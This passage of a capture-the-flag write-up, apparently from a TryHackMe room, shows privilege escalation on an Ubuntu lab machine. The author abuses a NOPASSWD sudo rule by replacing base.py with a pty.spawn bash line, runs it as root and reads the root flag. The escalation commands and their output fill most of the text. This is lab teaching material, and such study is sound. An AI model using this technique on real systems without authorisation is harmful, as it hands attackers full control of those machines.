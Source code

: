 Now for the privilege escalation.

```
veronica@ubuntu:~$ sudo -l
sudo -l
Matching Defaults entries for veronica on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User veronica may run the following commands on ubuntu:
    (ALL : ALL) ALL
    (root : root) NOPASSWD: /usr/bin/python3.5 /home/veronica/base.py
```

Looks like we can not edit the `base.py` file.

```
veronica@ubuntu:~$ ls -lh
ls -lh
total 60K
-rw-r--r-- 1 root     root       86 Jul 23  2020 base.py
drwxr-xr-x 2 veronica veronica 4.0K Jul 23  2020 Desktop
drwxr-xr-x 2 veronica veronica 4.0K Jul 23  2020 Documents
drwxr-xr-x 2 veronica veronica 4.0K Jul 23  2020 Downloads
-rw-r--r-- 1 veronica veronica 8.8K Jul 23  2020 examples.desktop
drwxrwxrwx 9 veronica veronica 4.0K Feb 28  2019 ghidra_9.0
drwxr-xr-x 2 veronica veronica 4.0K Jul 23  2020 Music
drwxr-xr-x 2 veronica veronica 4.0K Jul 23  2020 Pictures
drwxr-xr-x 2 veronica veronica 4.0K Jul 23  2020 Public
drwxr-xr-x 2 root     root     4.0K Jul 23  2020 __pycache__
drwxr-xr-x 2 veronica veronica 4.0K Jul 23  2020 Templates
-rw------- 1 veronica veronica   70 Jul 23  2020 user.txt
drwxr-xr-x 2 veronica veronica 4.0K Jul 23  2020 Videos
```

However, we could always delete the file and create our own in the same place, with the same name to be able to exploit the `NOPASSWD` permissions.

```
veronica@ubuntu:~$ echo 'import pty; pty.spawn("/bin/bash")' > /home/veronica/base.py
<port pty; pty.spawn("/bin/bash")' > /home/veronica/base.py                  
veronica@ubuntu:~$ sudo /usr/bin/python3.5 /home/veronica/base.py
sudo /usr/bin/python3.5 /home/veronica/base.py
root@ubuntu:~#
```

Now that we are root, get that nice flag!

```
root@ubuntu:~# pwd
pwd
/home/veronica
root@ubuntu:~# cat /root/root.txt
cat /root/root.txt
THM{02EAD3xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx077E11A1D9}
```
